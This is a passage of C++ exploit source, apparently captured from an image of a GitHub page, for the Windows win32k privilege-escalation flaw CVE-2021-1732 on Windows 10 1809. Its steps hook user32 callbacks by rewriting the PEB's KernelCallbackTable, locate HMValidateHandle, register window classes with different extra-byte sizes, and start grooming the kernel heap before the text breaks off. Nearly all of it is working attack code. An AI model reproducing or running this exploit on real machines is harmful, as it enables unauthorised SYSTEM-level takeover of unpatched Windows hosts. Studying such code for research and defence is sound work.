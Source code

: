 ```cpp
 
    std::cout << "Example CVE-2021-1732 Exp working in windows 10 1809(17763).\n";
    std::cout << "Current system version:\n";
    std::cout << "  MajorVer:" << dwMajorVer << " MinorVer:" << dwMinorVer << " BuildNumber:" << dwBuildNumber << std::endl;
    system("pause");
    // end of 2
 
    // 3. 加载所有用到的API函数
    g_fNtUserConsoleControl = (FNtUserConsoleControl)GetProcAddress(GetModuleHandle(L"win32u.dll"), "NtUserConsoleControl");
    g_fFNtCallbackReturn = (FNtCallbackReturn)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCallbackReturn");
    g_fRtlAllocateHeap = (RtlAllocateHeap)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlAllocateHeap");
    // end of 3
 
    // 4. 备份并hook user32!xxxClientAllocWindowClassExtraBytes和user32!xxxClientFreeWindowClassExtraBytes
    ULONG_PTR pKernelCallbackTable = (ULONG_PTR) *(ULONG_PTR*)(__readgsqword(0x60) + 0x58); //PEB->KernelCallbackTable
    g_fxxxClientAllocWindowClassExtraBytes = (FxxxClientAllocWindowClassExtraBytes)*(ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3D8);
    g_fxxxClientFreeWindowClassExtraBytes = (FxxxClientFreeWindowClassExtraBytes) * (ULONG_PTR*)((PBYTE)pKernelCallbackTable + 0x3E0);
    DWORD dwOldProtect = 0;
    VirtualProtect((PBYTE)pKernelCallbackTable + 0x3D8, 0x400, PAGE_EXECUTE_READWRITE, &dwOldProtect);
    *(ULONG_PTR *)((PBYTE)pKernelCallbackTable + 0x3D8) = (ULONG_PTR)MyxxxClientAllocWindowClassExtraBytes;
    *(ULONG_PTR *)((PBYTE)pKernelCallbackTable + 0x3E0) = (ULONG_PTR)MyxxxClientFreeWindowClassExtraBytes;
    VirtualProtect((PBYTE)pKernelCallbackTable + 0x3D8, 0x400, dwOldProtect, &dwOldProtect);
    // end of 4
 
    // 5. 通过 IsMenu 找到 HmValidateHandle 函数地址
    FindHMValidateHandle(&fHMValidateHandle);
    // end of 5
 
    // 6. 注册两个窗口类
    //    1）这两个窗口类除了类名唯一不一样的地方就是cbWndExtra，代表扩展内存的大小
    ATOM atom1, atom2 = 0;
 
    WNDCLASSEX WndClass = { 0 };
    WndClass.cbSize = sizeof(WNDCLASSEX);
    WndClass.lpfnWndProc = DefWindowProc;
    WndClass.style = CS_VREDRAW| CS_HREDRAW;
    WndClass.cbWndExtra = 0x20;
    WndClass.hInstance = hInstance;
    WndClass.lpszMenuName = NULL;
    WndClass.lpszClassName = L"Class1";
    atom1 = RegisterClassEx(&WndClass);
 
    WndClass.cbWndExtra = g_dwMyWndExtra;
    WndClass.hInstance = hInstance;
    WndClass.lpszClassName = L"Class2";
    atom2 = RegisterClassEx(&WndClass);
    // end of 6
 
    // 7. 构造内核堆内存布局
    ULONG_PTR dwpWnd0_to_pWnd1_kernel_heap_offset = 0;
    for (int nTry = 0; nTry < 5; nTry++) {
        HMENU hMenu = NULL;
```